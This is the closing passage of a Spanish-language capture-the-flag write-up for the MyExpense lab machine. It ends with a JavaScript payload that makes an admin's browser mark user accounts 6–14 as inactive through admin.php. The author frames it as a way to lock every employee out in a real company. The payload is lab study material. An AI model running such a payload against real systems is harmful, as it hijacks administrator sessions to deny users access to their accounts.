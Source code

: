 Pago enviado

![](/assets/images/vh-writeup-myexpen/Web47.png)

Ahora tenemos que revisar si le llego el pago y si terminamos el CTF hemos aprovechado varias vulnerabilidades para que la empresa le regrese el dinero que le deben a samuel 

![](/assets/images/vh-writeup-myexpen/Final.png)

Si esto fuera un ecenario real no dudo que hay empresas con estas fallas de seguridad podrias inabilitar todas las cuentas para que nadie pueda trabajar asta que las vuelvan a activar

```javascript
❯ catn zi.js
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=14&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=13&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=12&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=11&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=10&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=9&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=8&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=7&status=inactive');
request.send();

var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.100.38/admin/admin.php?id=6&status=inactive');
request.send();

```